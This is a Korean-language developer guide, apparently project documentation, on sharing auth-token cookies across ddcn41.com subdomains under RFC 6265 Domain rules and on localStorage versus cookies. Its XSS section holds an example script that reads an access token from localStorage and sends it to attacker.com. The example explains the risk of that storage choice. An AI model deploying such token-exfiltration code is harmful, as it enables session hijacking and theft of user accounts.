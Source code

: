#### 쿠키: 서브도메인 간 공유 가능

```javascript
// accounts.ddcn41.com에서 쿠키 설정 (Lambda 응답)
Set-Cookie: access_token=eyJhbGc...; Domain=.ddcn41.com; HttpOnly; Secure;

// ddcn41.com에서 자동 전송
fetch('https://api.ddcn41.com/v1/bookings')
// → Cookie: access_token=eyJhbGc... (브라우저가 자동으로 포함)

// admin.ddcn41.com에서도 자동 전송
fetch('https://api.ddcn41.com/v1/admin/users')
// → Cookie: access_token=eyJhbGc... (브라우저가 자동으로 포함)
```

**Domain 설정 규칙 (RFC 6265 기준)**¹:
```javascript
// accounts.ddcn41.com에서 설정 가능한 Domain:

// 1. 서브도메인 공유 (권장)
Domain=.ddcn41.com          ✅ 가능 (모든 *.ddcn41.com에서 공유)
Domain=ddcn41.com           ✅ 가능 (.ddcn41.com과 동일하게 동작)
  → RFC 6265: leading dot(.)은 무시됨
  → 현대 브라우저에서는 두 방식 모두 서브도메인 공유

// 2. 특정 도메인만 (Domain 생략 또는 명시)
(Domain 생략)              ✅ 가능 (accounts.ddcn41.com만, 서브도메인 제외)
Domain=accounts.ddcn41.com  ✅ 가능 (accounts.ddcn41.com + 하위 서브도메인)

// 3. 다른 도메인 설정 불가
Domain=.example.com         ❌ 불가 (다른 도메인)
Domain=google.com           ❌ 불가 (다른 도메인)


// 참고: RFC 6265 이전 (RFC 2109)과의 차이
// - RFC 2109 (구 스펙): .ddcn41.com만 서브도메인 공유
// - RFC 6265 (현재): .ddcn41.com과 ddcn41.com 모두 서브도메인 공유
```

> ¹ 참조: [RFC 6265: HTTP State Management Mechanism](https://datatracker.ietf.org/doc/html/rfc6265)

### 3. 보안 측면 비교

#### XSS (Cross-Site Scripting) 공격 시나리오

**로컬스토리지 (취약)**:
```javascript
// 악성 스크립트가 페이지에 삽입된 경우
<script>
  // ❌ 로컬스토리지는 JS로 직접 접근 가능
  const token = localStorage.getItem('access_token');

  // 공격자 서버로 토큰 전송
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token })
  });
</script>
```
